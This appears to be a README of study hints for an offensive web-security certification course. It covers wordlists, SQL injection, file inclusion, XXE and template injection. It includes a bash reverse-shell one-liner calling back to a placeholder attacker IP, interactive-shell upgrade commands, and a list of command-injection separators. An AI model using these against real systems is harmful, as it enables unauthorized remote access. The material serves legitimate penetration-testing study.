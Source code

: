 # Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints.

## Tools
### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, 
Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```

### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get reverse shell connecting to your kali machine instead of exploiting the 
vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```

Sometimes it is useful to upgrade this shell to a fully interactive one

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

## SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even when there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- Therefore I parameterize `SQLMap` that it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- When you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

## XML External Entity Attack
- Know how to idenfitiy this kind of vulnerability
- it is often overlooked in the real world
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

## Server-side Template Injection
### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- The following picture gives an overview what template engine might be in use if certain tests succeed: https://portswigger.net/web-security/images/template-decision-tree.png

### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remote Code Execution
Try to think what the target application might do in the backend to look for reasonable sinks. When you identified a potential injection point you usually have to escape from the original command and inject your own.

### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

